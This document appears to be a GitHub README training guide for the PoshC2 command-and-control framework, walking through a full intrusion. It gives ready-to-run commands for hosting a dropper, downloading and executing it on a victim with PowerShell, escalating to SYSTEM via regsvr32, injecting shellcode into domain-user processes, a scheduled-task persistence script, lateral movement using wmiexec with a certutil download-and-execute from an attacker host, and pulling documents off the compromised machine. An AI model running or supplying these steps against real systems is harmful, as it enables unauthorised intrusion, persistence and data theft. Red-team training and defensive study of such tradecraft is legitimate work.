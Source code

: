 # CTE-For-Monkeys

- Running Poshc2 
	- Set up
	- tool familiarization 
		- hosting payload
		- file upload 
		- host enumeration 
		- user escalation
		- persistence / scripting
		- later movement
        - file download
- living of the land ( windows )
	- file downloads 
	- file (payload) execution 
- powershell 
	- user enumeration 
	- domain enumeration 
	- scripting


# Running PoshC2

Create a new project:

```
posh-project -n <project-name>
```

Projects can be switched to or listed using this script:
```
[*] Usage: posh-project -n <new-project-name>
[*] Usage: posh-project -s <project-to-switch-to>
[*] Usage: posh-project -l (lists projects)
[*] Usage: posh-project -d <project-to-delete>
[*] Usage: posh-project -c (shows current project)
```
Edit the configuration for your project:
```
posh-config
```
Edit `payloadcoms` to your ip  
Also edit Bindport form 443 to 80

Launch the PoshC2 server:
```
posh-server
```

Alternatively start it as a service:
```
posh-service
```
Separately, run the ImplantHandler for interacting with implants:
```
posh -u <username>
```

For more on `Poshc2` github like [here](https://apple.stackexchange.com/questions/254380/why-am-i-getting-an-invalid-active-developer-path-when-attempting-to-use-git-a) 

# Host Payloads 

The PoshC2 Implant Types can be summarized as:
* PS - PowerShell Implant.
* C# - C# Implant that does not use System.Management.Automation.dll.
* PY - Python Implant.
* PB - PBind

In the ImplantHandler run file upload command 
```
add-hosted-file
```

Host file options 
```
file location > /var/poshc2/YourProjectName/payloads/Sharp_v4_dropper_x64.exe
file uri > /en-us/readme.md
file MIME type > text/html
Base64 > n
```

View all hosted files by running
```
show-hosted-files
```

# Download Payload on Victim 

For testing lets downloading using powershell on victim machine using a basic user
```powershell
iwr -uri http://<YouripOrDomian>/HostedUriString -outfile C:\windows\temp\bad.exe; C:\windows\temp\bad.exe
```

Interact with implant by typeing `1` in ImplantHandler

# User Escalation

Check for running process 
```ps 
ps
```
> As a basic user you'll only be able to see anything ran under your own context. 

Lets escalate to system through execution  

Upload a the dll to the machine 
```ps
> upload-file 
> /var/poshc2/projetname/payloads/Sharp_v4_x64.dll
> location C:\windows\temp\updater.dll 
```

Execute dll using local windows binaries 
```ps
sharpps regserv32 C:\windows\temp\updater.dll
``` 
> For more on native window binaries look [here](https://lolbas-project.github.io/)

After execution you should see a system level beacon return in ImplantHandler  

Once you are system you can Enumerate for other users on the box with domain access. 
```ps
ps
```

Search for any user process being ran as a domain user, to inject into

```ps
inject-shellcode <PID> 
```
```ps
<name_of_shellcode.bin>
```

Checking your ImplantHandler you should see a new beacon running in the context of said user.

As a domain user you can now run domain level commands, you can check your groups and privileges 
``` 
sharpps net user <domain username>
```

# Persistence and Scripting 

Now to maintain our domain user privilege lets create a .ps1 script to set persistence using registry keys  

On your attack box with the editor of your choice copy the following 
```ps
$payloadpath = "C:\windows\temp\bad.exe"
$taskname = "Test Updater"
$tskdescription = "This task updates things."
$action = New-ScheduledTaskAction -Execute $payloadpath
$days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname $taskname -Description $tskdescription
```
> Learn more about powershell `New-ScheduledTaskTrigger` [here](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtask?view=windowsserver2022-ps)

Save your pslo script as bad.ps1 in /home/parrot/desktop/bad.ps1

Lets run the .ps1
```
pslo /home/parrot/desktop/bad.ps1
```

You should see your scheduled task name appear for confirmation 

# Lateral Movement 

Now lets run a `sharpview` to enumerate the network to conduct lateral movement
```
sharpview 
```
> Read more on sharpview [here](https://academy.hackthebox.com/course/preview/active-directory-powerview/powerviewsharpview-overview--usage)

We can us the enumeration script to identify the next workstation to laterally move to 

```
resolveip <127.0.0.1>
```

Lets host a new payload 
```
add-hosted-file
```

Host file opttions 
```
file location > /var/poshc2/projectname/payloads/Sharp_v4_dropper_x64.exe
file uri > /verify
file MIME type > text/html
Base64 > n
```

Run wimc to get download and execution of hosted payload
```
wmiexec <127.0.0.1> <domain> <username> password=asdsa "cmd /c certutil.exe -urlcache -split -f http://badip/verify C:\windows\downloads\bad2.exe && C:\windows\downloads\bad2.exe"
```

In ImplantHandler interact with the new payload 

Lets run a built in host enumeration script 
```
seatbelt
```
Take some time to look at the differnet feilds, look into any that you dont recognize.

In the new payload handler lets navigate to the `documents` folder 
```
cd C:\users\username\documents
```

lets see what documents we can find 
```
ls
```

Now lets download some files 
```
download-file <filename>
```

Congratulations you have ran through your first OPPLAN, check [here](poshC2_help_v8.md) for the help list for poshc2 and other commands you can run.

Things to lookup and learn: 
- [ ] MIME types
- [ ] Windows 10 privilege escalation 
- [ ]   

# Resources 
[PoshC2 Documentation](https://poshc2.readthedocs.io/_/downloads/en/latest/pdf/)
